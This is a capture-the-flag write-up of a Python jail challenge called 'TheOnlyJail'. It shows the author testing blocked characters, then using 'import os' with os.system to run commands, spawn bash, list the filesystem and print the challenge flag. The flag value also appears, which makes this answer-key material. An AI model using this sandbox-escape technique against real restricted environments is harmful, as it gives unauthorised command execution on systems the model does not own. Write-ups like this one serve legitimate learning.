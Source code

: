 # TheOnlyJail

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

![](https://github.com/siunam321/CTF-Writeups/blob/main/Icognito-4.0/images/Pasted%20image%2020230218142849.png)

## Escape the jail

**In this challenge, we can connect to a docker instance:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/massive)-[2023.02.18|14:29:16(HKT)]
└> nc -nv 139.177.202.200 3333
(UNKNOWN) [139.177.202.200] 3333 (?) open
Welcome to the IIITL Jail! Escape if you can
jail> 
```

In a typical CTF pyjail challenge, we need to escape the restricted environment.

**First off, enumerate which characters are allowed:**
```shell
jail> !
Error: Error: forbidden character '!'
jail> @
Error: Error: forbidden character '@'
jail> #
Error: Error: forbidden character '#'
jail> $
Error: Error: forbidden character '$'
jail> %
Error: Error: forbidden character '%'
jail> ^
Error: Error: forbidden character '^'
jail> 
```

As you can see, many characters are forbidden.

**However, some characters are allowed:**
```shell
*()='":.,
```

**Hmm... If `'()` are allowed, can we import some Python libraries?**
```shell
jail> import os
jail> os.system('id') 
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

Oh!! We can! Most importantly, we can execute OS commands!!

**Let's try to spawn a shell!**
```shell
jail> os.system('bash')
whoami;hostname;id
ctf
32d84834a037
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -lah
total 72K
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 .
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 ..
-rwxr-xr-x   1 root root    0 Feb 18 05:03 .dockerenv
lrwxrwxrwx   1 root root    7 Jan 26 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Feb 18 05:03 dev
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 etc
drwxr-xr-x   1 root root 4.0K Feb 18 05:00 home
lrwxrwxrwx   1 root root    7 Jan 26 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Jan 26 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 media
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 mnt
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 opt
dr-xr-xr-x 214 root root    0 Feb 18 05:03 proc
drwx------   2 root root 4.0K Jan 26 02:06 root
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 run
lrwxrwxrwx   1 root root    8 Jan 26 02:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 srv
-rwxr-xr-x   1 root root   53 Feb 18 04:56 start.sh
dr-xr-xr-x  13 root root    0 Feb 18 05:03 sys
drwxrwxrwt   1 root root 4.0K Feb 18 04:59 tmp
drwxr-xr-x   1 root root 4.0K Jan 26 02:03 usr
drwxr-xr-x   1 root root 4.0K Jan 26 02:06 var
```

Nice! We successfully break out the pyjail!

**Let's use `find` to find the flag location:**
```shell
find / -name "*flag*" 2>/dev/null
/home/ctf/flag.txt
[...]
```

**Found it!**
```shell
cat /home/ctf/flag.txt
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
```

- **Flag: `ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}`**

# Conclusion

What we've learned:

1. Python Jailbreak Via Importing OS Library